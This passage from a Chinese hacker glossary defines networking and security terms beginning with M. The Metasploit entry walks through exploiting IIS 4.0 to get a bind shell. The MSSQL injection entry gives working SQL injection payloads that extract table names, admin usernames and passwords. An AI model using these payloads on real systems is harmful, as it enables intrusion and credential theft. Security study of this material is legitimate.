Linux 用户安装 Linux 操作系统时遇到的最常见、最难以决定的问题是：如何正确地估计各分区大小，以分配合适的硬盘空间。当遇到某个分区空间耗尽时，解决方法通常是使用符号链接，或使用调整分区大小的工具（如 PartitionMagic 等），但这都只是暂时的解决办法，不能根本解决问题。随着 Linux 逻辑卷管理功能的出现，这些问题都迎刃而解。


## MAC协议｜黑客技术基础

MAC 全称为 Media Access Control，即介质访问控制子层协议。该协议位于 OSI 七层协议中数据链路层的下半部分，主要控制连接物理层的物理介质。

在发送数据时，MAC 协议可事先判断是否能发送数据。如果可以发送，将给数据加上一些控制信息，最终将数据以及控制信息以规定的格式发送到物理层；在接收数据时，MAC 协议首先判断输入的信息并确认是否发生传输错误，如果没有错误，则去掉控制信息传至上层。

不管是在传统的 LAN，还是在目前流行的无线局域网（WLAN），MAC 协议都被广泛地应用。在传统局域网中，各种传输介质的物理层对应到相应的 MAC 层，目前的网络普遍采用的是 IEEE 802.3 的 MAC 层标准和 CSMA/CD 访问控制方式。而在无线局域网中，MAC 所对应的标准为 IEEE 802.11，其工作方式采用 DCF（分布控制）和 PCF（中心控制）。

## MAC地址｜黑客技术基础

MAC 地址即网卡的物理地址，也叫硬件地址，由 48 bit 长（6 字节）、16 进制的数字组成。0—23 位是由厂家自己分配，24—47 位叫做组织唯一标志符（Organizationally Unique），是识别 LAN（局域网）节点的标识。其中第 40 位是组播地址标志位。

网卡的物理地址通常由网卡生产厂家写入网卡的 EPROM（一种闪存芯片，通常可通过程序擦写），它存储的是传输数据时发送和接收数据主机的地址。

也就是说，在网络底层的物理传输过程中，是通过物理地址来识别主机的，它一般也是全球唯一的。比如以太网卡，其物理地址是 48 bit（比特位）的整数，如 44-45-53-54-00-00，以机器可读的方式存入主机接口中。以太网地址管理机构（IEEE）将以太网地址（即 48 比特的不同组合）分为若干独立的连续地址组，生产以太网网卡的厂家就购买其中一组，具体生产时逐个将唯一地址赋予以太网卡。

MAC 地址如同我们的身份证号码，注明每块网卡的身份，在局域网中也是利用 MAC 地址来判断主机的身份，这也是 ARP 欺骗实现的基础。

## MAC广播包｜黑客技术基础

MAC 广播包是指目的地址为 FF-FF-FF-FF-FF-FF，交换机设备接收到广播包后，会把它转发给局域网内的所有主机。一般在得到网关主机 MAC 地址时使用，详情请见 ARP 词条。

## MAC洪水攻击｜攻击方法与行为

MAC 洪水攻击（MAC FLOODING）发生在 OSI 第二层，攻击者进入 LAN 内，将假冒的源 MAC 地址和目的 MAC 地址数据帧发送到以太网上，导致交换机的内容可寻址存储器（CAM）满掉，然后交换机失去转发功能，从而攻击者可像在共享式以太网上对某些帧进行嗅探。这种攻击可通过端口安全技术方式进行防御，比如端口和 MAC 地址绑定。

## Mailsnarf｜黑客工具

Mailsnarf 是由 Dug Song 开发的、包含多个工具的 DSniff 软件套件之一。其中，mailsnarf、msgsnarf、urlsnarf 和 webspy 可用于监视网络上敏感的数据（如口令、E-mail、文件等）。

## Mambo｜黑客技术基础

Mambo 是功能非常强大的智能建站系统（CMS），目前用户超过 Phpnuke，它吸收了 Phpnuke、xoops 的很多优点。Mambo 是网站的后台引擎，使网站内容的创建、管理和共享更加简易。Mambo 的中文意思为曼波音乐（源于古巴黑人音乐），是目前功能最强大的、开放源码的智能建站系统之一。

在 2004 年 4 月 20 日伦敦举行的 Linux 用户和开发员大会上，Mambo 从众多优秀的开放源码系统中脱颖而出，获得 2004 年度最佳 Linux 开放源码系统奖项，和它同场竞技的有 KDE、Firebird SQL 以及 eGroupware 等。

## Man in the Middle｜渗透技术

中间人攻击（Man-in-the-Middle Attack，简称“MITM 攻击”）是一种“间接”的入侵攻击，这种攻击模式通过各种技术手段将攻击者控制的计算机插入正在进行网络连接的两台计算机之间，这台计算机就称为“中间人”。然后入侵者将这台“中间人”计算机同时冒充网络连接的两台计算机，分别与其通信，使“中间人”能对其中的数据有读取、修改传递信息的权利，而两个原始计算机用户却认为他们是在互相通信。常见的中间人攻击有 ARP 欺骗或 SMB 攻击。


如图 M-1 所示，计算机 B 就插入在计算机 A 与 C 中，充当了路由的角色。通常，这种“拦截数据——修改数据——发送数据”的过程被称为“会话劫持”（Session Hijack）。

## Mandriva｜操作系统及其相关

Mandriva 是来自法国的 Linux 发行套件之一，由 Mandrake 和 Conectiva 两者发展而来，供免费下载，据说是最易用的 Linux 发行版本，现在的最新版本为 Mandriva Linux 2008。Mandriva Linux 以易用和令人愉快的软件环境，向个人用户和企业用户提供了 Linux 的所有强大功能和稳定性。每天都有成千上万的用户在初识 Linux 并发现它完全能替代之前使用的操作系统。

Mandriva Linux（原先的 Mandrake Linux）创建于 1998 年，它以“Linux 对每个人都易用”为目标。当时 Linux 作为操作系统已经以强大和稳定而闻名，但其要求很强的专业知识，并涉及大量的命令行操作。MandrakeSoft 认为这是将图形桌面环境以及自身的图形界面配置工具集成到 Linux 的好机会。

## Mac OS（操作系统及其相关）

苹果机的操作系统就叫 Mac OS X（很多时候称 Mac OS）。这个基于 Unix 的核心系统增强了系统的稳定性、性能以及响应能力。它能通过对称多处理技术充分发挥双处理器优势，提供无与伦比的 2D、3D 和多媒体图形性能以及广泛的字体支持和集成的 PDA 功能。Mac OS X 通过 Classic 环境几乎可以支持所有的 Mac OS 9 应用程序，直观的 Aqua 用户界面使 Macintosh 的易用性又达到了一个全新水平。

## MBR（硬件）

MBR 是英文 Master Boot Record 的缩写，中文意思为主引导记录。硬盘 0 磁道的第一个扇区称为 MBR，它的大小是 512 字节，而这个区域可以分为两个部分：第一部分为 Pre-Boot 区（预启动区），占 446 字节；第二部分是 Partition Table 区（分区表），占 66 个字节。

该区相当于一个小程序，作用是判断哪个分区被标记为活动分区，然后去读取那个分区的启动区，并运行该区中的代码。即一旦 MBR 里的信息被破坏，直接后果是系统无法启动。

## McAfee（应用程序，安全技术）

McAfee 公司是世界上第八大独立软件公司，是全球最大的、致力于提供网络信息安全和管理的专业厂商，也是全球最具影响力的十大网络软件公司之一。McAfee 是全球最畅销的杀毒软件之一，其主界面如图 M-2 所示。


图 M-2

软件除了帮你侦测、清除病毒，还有 VShield 自动监视系统，会常驻在 System Tray。当你从磁盘、网络、E-mail 文件夹中开启文件时便会自动侦测文件的安全性，若文件内含病毒，会立即警告，并作适当处理，而且支持鼠标右键的快速选单功能。还可使用密码将个人的设定锁住，使他人无法乱改你的设定。

## MD5（安全技术）

MD5 的全称是 Message-Digest Algorithm 5，是哈希函数的一种，也是现在最为流行的加密方式之一。早期许多银行用它来加密用户的密码，现在广泛用于许多论坛与系统的密码加密、文件校验与数字签名等。

它的作用是让敏感信息被“压缩”成一种保密格式，而且不管这段数据有多长，都可压缩成统一的格式（一般分 16 位与 32 位）。MD5 最大的特点是单向加密（即无法直接解密得到原文），认证时只能通过将传来的数据（比如密码）加密后与加密的数据进行对比。MD5 也在数字签名上得到广泛应用，具体请见数字签名词条。

MD5 在 90 年代初由 MIT 的计算机科学实验室和 RSA Data Security Inc 发明，经 MD2、MD3 和 MD4 发展而来。Message-Digest 泛指字节串（Message）的 Hash 变换，就是把一个任意长度的字节串变换成一定长的大整数。请注意，我使用了“字节串”，而不是“字符串”这个词，因为这种变换只与字节的值有关，与字符集或编码方式无关。

MD5 将任意长度的“字节串”变换成一个 128 bit 的大整数，并且它是一个不可逆的字符串变换算法。换句话说，即使你看到源程序和算法描述，也无法将一个 MD5 的值变换回原始字符串。

从数学原理上说，是因为原始字符串有无穷多个，这有点像不存在反函数的数学函数。MD5 的典型应用在于文件的完整性与未篡改的认证（即文件校验），可以用 MD5 算法对一段文件进行加密，加密后的数据就是这个文件的“指纹”，因为其数据是唯一的，所以通过这个指纹可以判断这个文件是否完整。

由于破解 MD5 需要大量的数据与时间，现在有一种全新的网站提供在线破解 MD5 密码服务，此类网站的破解思路是分析大量的用户密码并加密成 MD5 存入数据库，使用者只需登录网站将 MD5 密码输入再进行查询即可。典型的有 www.cmd5.com 与 www.xmd5.org。

## MD命令｜操作系统及其相关

Windows 下用来建立目录的命令。

```
格式：md [盘符:][路径名]子目录名
```

- “盘符”：指定要建立子目录的磁盘驱动器字母，若省略，则为当前驱动器。
- “路径名”：要建立的子目录的上级目录名，若缺省则建在当前目录下。

## MD5 CRACK｜黑客工具

暴力破解 MD5 加密算法的软件，其基本思路是将字典中的数据加密再与其对比，从而得出结果。

## MD5SHA高级解密器｜黑客工具

MD5 解密器的一种，是一款对 MD5 解密和 SHA1 解密的软件，支持 16 位和 32 位的 MD5 码、40 位的 SHA1 码暴力破解，其界面如图 M-3 所示。软件包中含有 MD5SHA 高级解密器、木头字典生成器、MD5 爆破专家（闪速版）和 SHA1 爆破专家（闪速版）。


## MDA｜黑客技术基础

MDA 即 Mail Delivery Agent（邮件发送代理），用于把邮件放置到特定的 Mailbox 中，以及邮件的查询，它也用于过滤邮件和某些特殊功能的实现。MDA 是 MTA 和 Mailbox 之间的接口。

## MDB｜黑客技术基础

微软的 Access 数据库文件，其后缀名为 MDB，用 VBA 写代码，属于关系数据库，一般用于中小企业的数据管理。

## MEDIA服务器｜黑客技术基础

Windows Media Services 是专门对媒体进行流式处理而设计的，而且所有 Windows Media 组件共同运行时可以增强最终用户的体验。

## MEMCPY｜程序语言与开发

C 语言的常用函数，主要用来将指定内存区域的数据进行拷贝，也是时常发生缓冲区溢出的地方。

## MEPIS｜操作系统及其相关

MEPIS 是一个集合了 Debian Sid 和 Knoppix 的产物，用户既能将之当作 LiveCD 使用，也能使用常规的图形界面进行安装。MEPIS Linux 是一份 Linux 桌面系统，它能被方便地配置成专用的服务器。

MEPIS 由 Warren Woodford 在 2003 年建立，它拥有最新的特性（例如它是一张自启动运行/安装/修复光盘），以及自动配置硬件、NTFS 分区大小调整支持、ACPI 电源管理、WiFi 支持、反混淆 TrueType 字体、个人防火墙、KDE 桌面等。

## MSF 黑客工具

即 Metasploit Framework。

## Metasploit Framework 黑客工具

Metasploit Framework（简称 MSF）是一个缓冲区溢出与其他 Exploit 测试的集成工具，也可以说是一个漏洞利用和测试综合平台。它集成了各平台上常见的溢出漏洞和流行的 Shellcode，并且不断更新，使得缓冲区溢出测试变得简单、方便。

简单地说，它就是一个 Exploit 大集合，可以简单地使用各种 Exploit。同时它也是编写、测试和使用 Exploit 代码的完善环境。这个环境为渗透测试、Shellcode 编写和漏洞研究提供了一个可靠平台。这个框架主要由面向对象的 Perl 编程语言编写，并带有由 C 语言、汇编程序和 Python 编写的可选组件。

MSF 2.x 框架主要由面向对象的 Perl 编程语言编写，最新版本 3.0 采用了 Ruby 开发。另外，MSF 所有版本都遵守 GNU GPL 许可，即任何人都可以自由下载、使用并修改它——前提是使用者也要接受 GNU GPL。

作为安全工具，MSF 在安全测试中起到的作用也不容忽视。合理地利用 MSF，将为漏洞自动化探测以及及时修补系统漏洞提供有力的保障。同时作为开发工具，也大大降低了 Exploit 的开发周期和对开发者背景知识的要求。

MSF 作为一个健壮的漏洞开发系统，可使用它在现有的系统中来运行早先已开发完成的漏洞利用程序，也可使用它所具备的安全测试特点来检测你的系统对于渗透性是否脆弱，且可观察当特定的有效负载按其自身的方式进行发送时它们是如何反应的。

**MSF 为使用者提供了三种界面：MSFcli、MSFWEB、MSFConsole。**  
MSFcli 界面在编写脚本中非常有用，因为所有的 Exploit 选项都是在命令行方式下作为参数传递；MSFWEB 界面能通过浏览器访问，适合当作一个非常优秀的弱点示范方法来使用；MSFConsole 界面是一个交互的命令行方式 Shell，这是 Exploit 开发最为推荐的界面方式，它的交互命令行界面提供了一个命令集，允许用户轻松地设置 MSF 环境变量，设置 Exploit 选项并最后执行插件。不能被 MSF 识别的命令会传递到操作系统，这种方式可让用户执行探测工具而不必离开控制台。MSFConsole 界面如图 M-4 所示。

这里我们以攻击 Windows NT 4 下的 IIS 4.0 SP5 来做示范，演示如何使用 MSFConsole。首先输入“?”查看各种命令的帮助：

- “?”：帮助
- “cd”：这个命令大家都熟悉，和 Windows 下面一样，切换目录
- “exit”：退出
- “info”：显示当前程序信息
- “quit”：退出程序
- “reload”：加载 exploit 和 payloads
- “save”：保存设置
- “setg”：设置一个环境变量
- “show”：显示当前可用的 Exploit
- “use”：选择一个 exp
- “version”：显示程序版本

使用 **show exploits** 命令可以列出所有可用的 Exploit，如图 M-5 所示。

因为目标运行着 IIS 4.0，所以我们选择使用 IIS 4.0 .HTR Buffer Overflow exploit。利用 **info** 命令，用户可查看这个 Exploit 不同方面的各种描述，包括目标主机的平台、使用该插件对目标对象的要求、Payload 设定、Exploit 描述、外部信息引用等。如图 M-6 所示，有效的目标包括 Windows NT4 SP5，与我们实验中的被攻击目标主机平台相同。


M-4


M-5

接着，输入 **use iis40_htr** 命令，这样就选择了 IIS 4.0 Exploit。在 MSF 中，命令行输入可像在 Linux shell 中那样键入部分命令，然后使用 TAB 键自动补全。比如在使用上一个命令中，我们可简单地输入 **use iis4**，然后按 TAB 键，系统会自动补充完该命令，如图 M-7 所示。在使用上述命令后，命令行提示符会有所反应。

一旦选择了一个 Exploit，MSFConsole 界面会从完全模式进入到 Exploit 模式，**show** 命令此时显示的不再是可用 Exploit、Encoders、Nops 的列表，取而代之的是该模式下的特定信息。键入 **help** 命令能显示在 Exploit 模式下的所有可用命令列表，如图 M-8 所示。

然后，用户需要检查可用的目标列表。在 MSF 中，每个目标针对不同运行着特定漏洞应用程序的远程平台，每个 Exploit 中存储着基于目标主机的唯一攻击插件。选用错误的目标会使 Exploit 不能正常工作，并且潜在地可能使存在漏洞的服务崩溃。

我们知道远程目标主机运行着 Windows NT 4 Service Pack 5，可使用 `set TARGET 2` 命令设置目标主机的操作平台，如图 M-9 所示。

选择了目标后，用户必须提供一些关于远程主机的额外信息，这些信息将以环境变量的形式提供给 MSF。通过使用 `show options` 命令查看需要的环境变量列表，如图 M-10 所示，`RHOST`（远程主机）、`RPORT`（远程端口）环境变量必须在执行该 Exploit 前设定。

```bash
set RHOST 192.168.119.136
```

（这里假设 IP 为 192.168.119.136）这样就设定了 RHOST 参数，192.168.119.136 就是我们目标主机的 IP 地址。而远程主机端口号 RPORT 已经由默认值给出。

`set` 命令只是针对当前选择的 Exploit 临时修改环境变量数值。如果用户想针对同一机器尝试多个 Exploit 插件，`set` 命令是较理想的选择。`setg` 命令能在全局范围内对全局变量的值进行设定，它所作的设置针对多个 Exploit 都是有效的。如果对于同一个变量，分别在局部和全局环境中作了设定，局部变量的设置优先。

然后，必须给将要对目标主机起作用的 Exploit 选择一个 Payload。Payload 可以简单地理解为攻击者希望在目标主机系统上运行的任意代码。如图 M-11 所示，在运行 `show payloads` 命令后，MSF 显示出与 exploit 兼容的 payload 列表。

其中显示了多种 Payload，有绑定 Shell、DLL 插入、上传执行等，这里我们只需最简单的绑定（即 BIND）就可以了。


使用 **set PAYLOAD win32_bind** 指令能返回一个 shell 的 payload，这就被加入到了 exploit 中。MSF 与大多数公开的单独 Exploit 不同的地方在于：MSF 能随意选择 Payload。这样，用户能在不同网络环境或系统状况发生改变时选择最适合的 Payload。


M-11

在加入 payload 后，必须对一些附加选项作设定。如图 M-12 所示，使用 **show options** 命令查看新的选项。save 命令在调试一个 Exploit 时非常有用，该命令将把当前环境和所有设定的 Exploit 环境变量写入磁盘，下次 MSFConsole 运行时，这些信息将被重新载入。


M-12

如果用户对默认的 Payload 选项满意，使用 exploit 命令就可执行攻击了，如图 M-13 所示。我们设定的 Exploit 成功触发了远程系统的漏洞，远程主机创建了一个侦听端口，MSF 自动与之建立连接，并连接到了远程 shell。


M-13

## MFT｜操作系统及其相关

MFT 即主文件表（Master File Table），它是 NTFS 文件系统的重要组成部分。NTFS 里，卷中所有存放的数据均在一个叫 `$MFT` 的文件中，叫主文件表（Master File Table）。而 `$MFT` 则由文件记录（File Record）数组构成。File Record 的大小一般是固定的，通常情况下均为 1KB，这个概念相当于 Linux 中的 inode。

File Record 在 `$MFT` 文件中物理上是连续的，且从 0 开始编号。`$MFT` 仅供 File System 本身组织、架构文件系统使用，这在 NTFS 中称为元数据（Metadata）。在 NTFS 文件系统里，磁盘上的所有东西都以文件形式出现，即使是元数据也以一组文件形式存储。

主文件表（MFT）是这个卷上每个文件的索引，它为每个文件保存着一组称为“属性”的记录，每个属性存储了不同类型的信息。MFT 在 NTFS 卷中扮演着重要角色，对其性能影响很大，系统空间分配、读写磁盘时会频繁地访问 MFT，因此，MFT 对 NTFS 的卷性能有着至关重要的影响。

NTFS 文件系统的开发者在 MFT 附近预留着一个特定区域，用来减少 MFT 中的碎片，缺省状态下，这一区域占整个卷大小的 12.5%。尽管这个区域能使 MFT 中的碎片最少，但它并非总是合适的。

## Microsoft 特定名称

Microsoft 是微软公司的英文名称。微软是 Windows 王朝的缔造者，也是世界 PC（Personal Computer，个人计算机）软件开发的先导，比尔·盖茨是它的创始人。截止 2008 年，微软已称霸世界桌面系统将近二十年，其影响力令其他同行望尘莫及！

## Microsoft Visual Studio 程序语言与开发

Microsoft Visual Studio 是一套完整的开发工具集，用于生成 ASP.NET Web 应用程序、XML Web Services、桌面应用程序和移动应用程序。Visual Basic、Visual C++、Visual C# 和 Visual J# 全都使用相同的集成开发环境（IDE），利用此 IDE 可共享工具且有助于创建混合语言解决方案。另外，这些语言利用了 .NET Framework 的功能，通过此框架可使用简化 ASP Web 应用程序和 XML Web Services 开发的关键技术。

## Microsoft Visual Studio “WMI Object Broker” 控件代码执行漏洞 安全技术

Visual Studio 的“WMI Object Broker”控件在例程的创建和处理上存在漏洞，远程攻击者可利用此漏洞在用户机器上执行任意恶意代码。

Visual Studio 捆绑的 WMI Object Broker ActiveX 控件允许创建系统上已有的 ActiveX 控件例程。以这种方式创建的 ActiveX 对象会绕过 ActiveX 安全限制，如忽略“kill bit”和“safe for scripting”选项。如果用户受骗，浏览了特制 HTML 文档，就可能导致以该用户的权限执行任意代码。

## MIME 黑客技术基础

MIME 是 Multipurpose Internet Mail Extensions 的缩写，即多功能 Internet 邮件扩充服务。由于 MIME 在网上经常用于多媒体应用程序，有时候被错误地理解为多媒体 Internet 邮件扩展（Multimedia Internet Mail Extensions）。MIME 已经成为 HTTP 协议标准的一部分。

MIME 是一种技术规范，它原来是用于电子邮件，现在也可用于浏览器上，传送可供浏览器识别的信息。实际上，我们在上网时就已经接触到了 MIME，由浏览器和服务器在底层实现。

MIME 对于邮件系统的扩展是巨大的，因为在 MIME 出现以前，信件内容如果要包括声音和动画，就必须把它变为 ASCII 码，或把二进制的信息变成可传送的编码标准，而接收方必须经过解码才能获得声音和图画信息。MIME 提供了一种可在邮件中附加多种不同编码文件的方法，解决了这个问题。

另外，早期的网页木马也利用了 MIME 进行攻击，不过这个技术早已淘汰。

## MiniQQ 应用程序

迷你 QQ（MiniQQ）是超级小的 QQ 客户端，采用命令行方式工作，字符界面加声音带来的效果非常 Cool，用它就可以和自己 QQ 上的好友交流。MiniQQ 使用一种精简版的 TCP/QQ 通讯协议，这种协议流量极小，在你网速不快或者流量需收费时（比如笔记本连接手机用 GPRS 上网），你将会获得更快的速度和更少的费用。MiniQQ 具备了所有常用功能：显示好友列表、文字聊天、添加好友、删除好友、查看资料、修改登录状态等。MiniQQ 直接连接腾讯官方的 TCP 服务器，密码传送采用 MD5 不可逆加密法。

## MMC 控制台 操作系统及其相关

MMC 控制台即微软管理控制台（Microsoft Management Console，MMC），是一个应用程序，它提供图形用户界面（GUI）和设计框架，在控制台中可创建、保存和打开各种管理工具，如图 M-14 所示。


M-14

微软管理控制台最初是作为 Windows 98 的一个资源工具箱发布的，在以后的版本中都保留了下来。在类似微软的 Windows 资源管理器的环境中，它使用多文档界面（MDI）。微软管理控制台被认为是一个实际操作的容器，一个“工具主机”。它本身并不提供管理，而是提供一个框架，管理工具可以在其中运行。

控制台用来管理基于 Windows 的硬件、软件和网络部件，包含了控件、向导、任务、文件和来自微软或其他软件厂商及用户自定义的嵌入式管理单元。为了创建一个控制台，管理员运行 MMC 可执行文件来打开一个空的控制台，并在安装在系统上的工具（例如证书服务器管理器、设备管理器、域名服务器（DNS）管理器）中进行选择。因为控制台以文件形式存在，管理员可创建它们并以 E-mail 附件发给负责特殊任务的开发者。

## MODEM 黑客技术基础

MODEM 称为调制解调器，用于模拟信号和数字信号之间的转换。计算机内所能处理的是数字信号，而电话线传输的是模拟信号，计算机内的数字信号通过调制后变成模拟信号，经过电话线路传输到另一计算机的调制解调器，经调制解调器解调后由模拟信号转换为数字信号。它的作用就是使一台计算机可通过电话线来呼叫另一台计算机。基本上可以说，这一小片硬件是通向 Internet 之路的门票。但随着宽带技术的发展，传统的 MODEM 渐渐退出了历史舞台。

## MOV 调试技术，操作系统及其相关

- 汇编常用命令，一般用来进行数据移动。
- MOV，它是 Apple 公司开发的一种音频、视频文件格式，也称为 QuickTime 影片格式；用于存储常用数字媒体类型，如音频和视频。当选择 QuickTime（*.mov）作为“保存类型”时，动画将保存为 `.mov` 文件。

## MS-DOS 操作系统及其相关

MS-DOS 是 Microsoft Disk Operating System 的简称，即由美国微软公司提供的磁盘操作系统。在 Windows 95 以前，DOS 是 PC 兼容电脑的最基本配备，而 MS-DOS 则是最普遍使用的 PC 兼容 DOS。

最基本的 MS-DOS 系统由一个基于 MBR 的 BOOT 引导程序和三个文件模块组成。这三个模块是输入输出模块（IO.SYS）、文件管理模块（MSDOS.SYS）及命令解释模块（COMMAND.COM）。此外，微软还在零售的 MS-DOS 系统包中加入了若干标准的外部程序（即外部命令），这才与内部命令（即由 COMMAND.COM 解释执行的命令）一同构建起一个在磁盘操作时代相对完备的人机交互环境。

最初的 Windows 系统只是 DOS 下的一个应用程序。现在 Win2K 或 XP 下的 CMD 就是 DOS 的延续。

## MSConfig 操作系统及其相关

MSConfig，即系统配置实用程序，用来配置系统的一些基本信息，如启动项、服务等，如图 M-15 所示。

在“开始”菜单的“运行”中输入“msconfig”，回车确认后就可找到程序。具体功能如下：

- 管理系统启动项。有的软件在操作系统启动时也随之启动，无端占用系统资源（CPU、内存等），你可以决定哪些软件可以启动，哪些不可以；
- 管理系统服务，例如打印机、注册表等的服务；
- 可以看到 boot.ini、win.ini、system.ini 等。


## MSDN 程序语言与开发

MSDN 的全称是 Microsoft Developer Network，这是微软公司面向软件开发者的一种信息服务。一般情况下，很多人误认为 MSDN 为联机帮助文件和技术文献的集合，事实上，这两者只占 MSDN 庞大计划的一小部分。

MSDN 实际上是一个以 Visual Studio 和 Windows 平台为核心整合的开发虚拟社区，包括技术文档、在线电子教程、网络虚拟实验室、微软产品下载（几乎全部的操作系统、服务器程序、应用程序和开发程序的正式版和测试版，还包括各种驱动程序开发包和软件开发包）、Blog、BBS、MSDN WebCast、与 CMP 合作的 MSDN 杂志等一系列服务。其中，产品下载、在线电子教程、MSDN 杂志和技术紧急电话支援是要付费的，其余基本免费。

MSDN 涵盖了所有可被开发扩充的平台和应用程序。因此，像微软公司的百科全书 Encarta 或者各种游戏不包括在 MSDN 之内，因为这些产品直接面向最终用户，没有进行程序开发的必要。

## MSHTA 操作系统及其相关

MSHTA 即 HTA，此处的 MS 主要用于强调这是微软的漏洞。HTA 全名为 HTML Application，即 HTML 应用程序，其实只需简单地用“hta”为扩展名保存 HTML 页面就算创建了一个 HTA 文件。

以前有很多恶意代码利用它，但随着用户安全意识的提高，以及安全厂商将其列入黑名单，这些含有 HTA 代码的文件发挥的破坏作用已大不如前。攻击者可利用此漏洞控制受影响的系统，进行恶意程序的安装、系统文件的管理等，或创建一个拥有完全控制权限的管理员账号。其他信息请见 HTA。

## MSI　特定名称

即微星公司，英文全称为 Micro Star International，著名的 IT 配件公司，主板一线大厂。主要产品有：主板、显卡、MP3、MP4、笔记本电脑、服务器等。

## MSN Messenger　应用程序

MSN Messenger 简称 MSN，一种优秀的 IM 工具（即时通信工具）。整合有微型浏览器，使 Internet 浏览更加便捷，并通过一些高级功能加强了联机的安全性。这些高级功能包括家长控制、共同浏览 Web、垃圾邮件保护器和其他定制功能。

## MSN Chat Monitor　黑客工具

MSN 聊天监控及嗅探器，如图 M-16 所示。它可以捕捉和显示网络上所有电脑的 MSN 会话，可实时自动记录 MSN 对话。支持将所有截取的信息输出为 HTML 文件，以备以后处理和分析。


M-16

## MSSQL　数据库

MSSQL 即 Microsoft SQL Server，详情请见 **SQL Server** 词条。

## MSSQL 注入　攻击方法与行为

即针对 MSSQL 的注入。对 MSSQL 进行注入时，因 MSSQL 强大的功能而使得这种注入在很多时候都能很快地获得最高权限，但其注入原理与核心思想与其他数据库的注入无异（详情请见 **SQL 注入** 词条）。

下面以 `http://www.xxx.com/xxx.asp?id=xx` 为例进行一次 MSSQL 注入。如果用单引号、`and 1=1`、`and 1=2` 检测到这个网站有漏洞，可以从这些返回的错误信息中确定该网站使用的数据库类型，如图 M-17 所示。在得到后台是 MSSQL 数据库之后，就可以确定当前数据库的用户名了，使用 and user>0 就可以得到。输入 `http://www.xxx.com/xxx.asp?id=xx and user>0` 就可以得到当前用户的用户名为 `xingsheadmin`，如图 M-18 所示。


图 M-17 单引号确定后台数据库类型


图 M-18 得到了当前用户的用户名

虽然 and user>0 很简单，但却包含了 SQL Server 特有注入方法的精髓。让我们来看看它的含义：首先，前面的语句是正常的，重点在 and user>0，因为 user 是 SQL Server 的一个内置变量，它的值是当前连接的用户名，类型为 nvarchar。而这里我们拿一个 nvarchar 的值跟 int 的 0 比较，系统会先试图将 nvarchar 的值转成 int 型。当然，转的过程中肯定会出错，SQL Server 的出错提示是：将 nvarchar 值“abc”转换数据类型为 int 的列时发生语法错误。abc 正是变量 user 的值，这样，不费吹灰之力就拿到了数据库的用户名。

上面的方法可以很方便地测试出是否是用 SA 登录，如果是 SA 登录，那么返回的错误提示是将“dbo”转换成 int 的列发生错误，而不是“SA”，如图 M-19 所示。


图 M-19 当前用户的权限为 SA

在得到当前用户名之后，就是要查询当前用户的数据信息了，利用 having 1=1-- 就可以得到用户数据信息。我们输入 `http://www.xxx.com/xxx.asp?id=xx having 1=1--` 即可，如图 M-20 所示。

其中 FORUM_TOPICS.TOPIC_ID 就是当前用户的数据信息了，FORUM_TOPICS 是表名，而 TOPIC_ID 为列名。继续猜解用户数据信息，不过这里的语句稍微有点变化，改成了 group by 用户信息 having 1=1--。

我们继续提交 `http://www.xxx.com/xxx.asp?id=xx group by FORUM_TOPICS.TOPIC_ID having 1=1--`，可得到一个 `T_SUBJECT` 列名，如图 M-21 所示。


图 M-20 得到 FORUM_TOPICS 表中的 TOPIC_ID 列


图 M-21 得到 FORUM_TOPICS 表中的 T_SUBJECT 列

继续提交数据，不过这个时候我们已经有了两个列名了，所以提交的数据又有一点变化，为 `group by 用户信息1,用户信息2 having 1=1--`。我们提交 `http://www.xxx.com/xxx.asp?id=xx group by FORUM_TOPICS.TOPIC_ID, FORUM_TOPICS.T_SUBJECT having 1=1--` 就可以得到其他的列名了。

上面方法的原理是：在 SQL 语句中，`having 1=1--` 是与 `group by` 结合使用并进行条件判断的，如果语句不完整，数据库就会返回错误信息，并显示一个表名和一个列名。

虽然上面的方法很好，但是只能暴当前表中的列，下面我就教大家如何暴任意表名和列名的方法吧。此方法的相关语句为：`and (select top 1 name from (select top N id,name from sysobjects where xtype=char(85)) T order by id desc)>1`。

其中 N 就是代表数据库中的第 N 个表，这里我们来提交 `http://www.xxx.com/xxx.asp?id=xx and (select top 1 name from (select top 1 id,name from sysobjects where xtype=char(85)) T order by id desc)>1`，就可以猜解到第一个表的表名为 `D99_REG`，如图 M-22 所示。


图 M-22 当前用户的第一个表名为 D99_REG

而我们提交 `http://www.xxx.com/xxx.asp?id=xx and (select top 1 name from (select top 2 id,name from sysobjects where xtype=char(85)) T order by id desc)>1`，就可以猜解到第二个表名为 `shit_tmp`，如图 M-23 所示。


图 M-23 当前用户的第二个表名为 shit_tmp

要暴任意表中的任意列的语句为：`and (select top 1 col_name(object_id('表名'),N) from sysobjects)>1`。这里我们提交 `http://www.xxx.com/xxx.asp?id=xx and (select top 1 col_name(object_id('D99_REG'),1) from sysobjects)>1`，就可以暴出 D99_REG 表中的第一个列名为 ID，如图 M-24 所示。


图 M-24 暴出了第一个列名为 ID

提交 `http://www.xxx.com/xxx.asp?id=xx and (select top 1 col_name(object_id('D99_REG'),2) from sysobjects)>1`，就可以暴出第二个列名为 Data，如图 M-25 所示。


图 M-25 暴出第二个列名为 Data

有列名和表名之后，我们就是要暴出数据库中的数据了。这个命令的相关语句为 `and (select top 1 列名 from 表名 where id=N)>1`，其中 N 代表第 N 条数据。这里我们提交 `http://www.xxx.com/xxx.asp?id=xx and (select top 1 username from admin where id=1)>1`，就可以猜解出 admin 表中 username 的第一条数据了；而提交 `http://www.xxx.com/xxx.asp?id=xx and (select top 1 password from admin where id=1)>1` 就可以暴出密码，比起 ACCESS 注入来是不是方便多了？

前面讲的 URL 的参数都是数字，如 `http://www.xxx.com/xxx.asp?id=xx` 中的 id 是等于一个数字的。这种类型的注入攻击，我们直接在这个数字参数后加上注入攻击的代码就可以了。但是并不是所有的 URL 中都是以数字来作为参数，还有很多是用字符来作为参数的，还有一种是用于搜索功能的，所以它的参数又不一样。

若 URL 中的参数是字符的话，假设其 URL 地址为：`http://www.xxx.com/xxx.asp?action=value`。这个 value 就是一个字符，那么对于这样的 URL 我们要进行注入的话，就要输入 `http://www.xxx.com/xxx.asp?action=value' and 1=1` 和 `http://www.xxx.com/xxx.asp?action=value' and 1=2` 来判断是否存在注入漏洞了。

我们要进行注入的话，比如判断当前的数据库类型，那就应该输入 `http://www.xxx.com/xxx.asp?action=value' and user>0`。它和数字型注入差不多，但是要在字符后面加上一个单引号，然后在后面加上所要进行注入攻击的代码，注意的是单引号和注入攻击代码之间要有一个空格。

